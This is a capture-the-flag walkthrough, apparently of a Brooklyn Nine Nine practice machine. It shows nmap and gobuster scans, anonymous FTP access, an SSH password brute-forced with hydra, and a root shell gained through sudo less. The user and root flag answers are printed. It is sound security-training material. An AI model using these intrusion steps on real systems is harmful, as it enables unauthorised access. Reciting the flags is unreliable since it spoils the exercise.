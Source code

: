 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


## Task 1: Deploy and get hacking
### User flag
First, let's scan the target using `nmap`.
```
$ nmap -sC -sV 10.10.255.141
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-06 21:01 IST
Nmap scan report for 10.10.255.141
Host is up (0.13s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.48.138
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.98 seconds
```
There are three open ports:

| Port | Service | 
| :-: | :-: |
| 21 | ftp |
| 22 | ssh |
| 80 | http |

Let's scan all the directories using `gobuster`.
```
$ gobuster dir -u http://10.10.255.141 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.255.141
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 718]
/server-status        (Status: 403) [Size: 278]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
There seems to be nothing of interest in the web directories.

Let's login anonymously through FTP.
```
$ ftp anonymous@10.10.255.141
Connected to 10.10.255.141.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
Let's check out the contents of this directory.
```
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
```
We can download the `note_to_jake.txt` file to our machine using the `get` command.
```
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
100% |***********************************************************************************************************************************************************************************************|   119       22.82 KiB/s    00:00 ETA
226 Transfer complete.
119 bytes received in 00:00 (0.85 KiB/s)
```
Let's check what is in the `note_to_jake.txt` file.
```
$ cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
The only service remaining is SSH. That means that the user `jake` has a weak SSH password.

Using `hydra`, we can brute force the password.
```
$ hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.255.141 -t 4
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-06 21:56:40
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.255.141:22/
[STATUS] 44.00 tries/min, 44 tries in 00:01h, 14344355 to do in 5433:29h, 4 active
[22][ssh] host: 10.10.255.141   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-06 21:59:14
```
Now we know that for the user `jake`, the password is `987654321`.

Let's login through SSH using these credentials.
```
$ ssh jake@10.10.255.141            
The authenticity of host '10.10.255.141 (10.10.255.141)' can't be established.
ED25519 key fingerprint is SHA256:ceqkN71gGrXeq+J5/dquPWgcPWwTmP2mBdFS2ODPZZU.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.88.195' (ED25519) to the list of known hosts.
jake@10.10.255.141's password: 
Last login: Tue May 26 08:56:58 2020
jake@brookly_nine_nine:~$ 
```
Let's go to the user `holt`.
```
jake@brookly_nine_nine:~$ cd ..
jake@brookly_nine_nine:/home$ ls
amy  holt  jake
jake@brookly_nine_nine:/home$ cd holt/
jake@brookly_nine_nine:/home/holt$ ls
nano.save  user.txt
```
We can now get the user flag.
```
jake@brookly_nine_nine:/home/holt$ cat user.txt 
ee11cbb19052e40b07aac0ca060c23ee
```
### Answer
```
ee11cbb19052e40b07aac0ca060c23ee
```

&nbsp;

### Root flag
Let's check what file the `jake` user can execute.
```
jake@brookly_nine_nine:/home/holt$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```
We can got to GTFOBins to find an exploit for the `less` binary.

![2](https://github.com/Knign/Write-ups/assets/110326359/1082bb6e-c589-4c23-9535-3b9ebbea349d)

Copy and paste the `Sudo` exploit in the terminal.
```
jake@brookly_nine_nine:/home/holt$ sudo less /etc/profile
# 
```
You will have to press `ENTER` once again after entering the command.
```
# cd root       
# ls
root.txt
# cat root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
```
### Answer
```
63a9f0ea7bb98050796b649e85481845
```
